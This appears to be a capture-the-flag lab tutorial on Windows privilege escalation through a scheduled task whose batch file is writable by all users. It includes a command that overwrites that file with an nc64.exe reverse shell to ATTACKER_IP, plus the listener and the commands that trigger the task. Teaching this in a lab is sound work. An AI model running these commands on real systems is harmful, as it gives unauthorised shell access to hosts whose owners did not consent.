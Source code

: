 Privilege escalation is not always a challenge. Some misconfigurations can allow you to obtain higher privileged user access and, in some cases, even administrator access. It would help if you considered these to belong more to the realm of CTF events rather than scenarios you will encounter during real penetration testing engagements. However, if none of the previously mentioned methods works, you can always go back to these.



# Scheduled Tasks
Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the schtasks command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

Command Prompt
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
You will get lots of information about the task, but what matters for us is the "Task to Run" parameter which indicates what gets executed by the scheduled task, and the "Run As User" parameter, which shows the user that will be used to execute the task.

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use icacls:

Command Prompt
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:

Command Prompt
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
We then start a listener on the attacker machine on the same port we indicated on our reverse shell:

nc -lvp 4444
The next time the scheduled task runs, you should receive the reverse shell with taskusr1 privileges. While you probably wouldn't be able to start the task in a real scenario and would have to wait for the scheduled task to trigger, we have provided your user with permissions to start the task manually to save you some time. We can run the task with the following command:

Command Prompt
C:\> schtasks /run /tn vulntask
And you will receive the reverse shell with taskusr1 privileges as expected:
